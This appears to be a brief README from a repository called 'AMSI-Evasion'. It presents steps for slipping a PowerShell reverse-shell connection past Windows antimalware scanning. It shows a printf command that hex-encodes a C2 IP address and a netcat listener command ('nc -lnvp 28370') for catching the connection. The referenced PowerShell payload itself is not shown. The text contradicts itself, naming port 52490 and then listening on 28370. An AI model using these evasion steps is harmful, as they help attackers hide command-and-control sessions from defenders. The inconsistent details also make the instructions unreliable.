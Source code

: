 # AMSI-Evasion

### First, let’s obfuscate our IP address to simple hex. My C2 Host IP is be 192.168.0.1 which stands for 192 = c0, 168=a8, 0=0, 1=1

```bash
printf "%x,%x,%x,%x\n" 192 168 0 1
```


<p align="center">
  <img src="/Screenshot/IP.png">
</p>

### Now, if you start a netcat listener on port 52490, and enter the above code into PowerShell, it evades AMSI.


```bash
nc -lnvp 28370
```

